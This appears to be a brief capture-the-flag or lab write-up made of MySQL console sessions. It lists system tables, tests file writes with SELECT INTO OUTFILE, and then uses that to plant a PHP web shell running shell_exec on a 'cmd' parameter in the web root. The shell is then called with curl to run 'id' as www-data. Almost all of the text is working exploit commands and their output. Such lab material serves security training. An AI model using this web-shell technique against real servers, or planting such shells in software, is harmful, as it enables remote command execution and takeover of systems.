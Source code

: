 ```
MySQL [mysql]> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
24 rows in set (0.009 sec)
```
```
MySQL [(none)]> select 'Hello world!' into outfile '/tmp/test.txt' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)
```
```
MySQL [(none)]> select '<?php $output=shell_exec($_GET["cmd"]); echo "<pre>".$output."</pre>" ?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 📌
Query OK, 1 row affected (0.002 sec)
```

`curl http://192.249.241.3/shell.php?cmd=id`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data) 🚩
</pre>
```

---
---
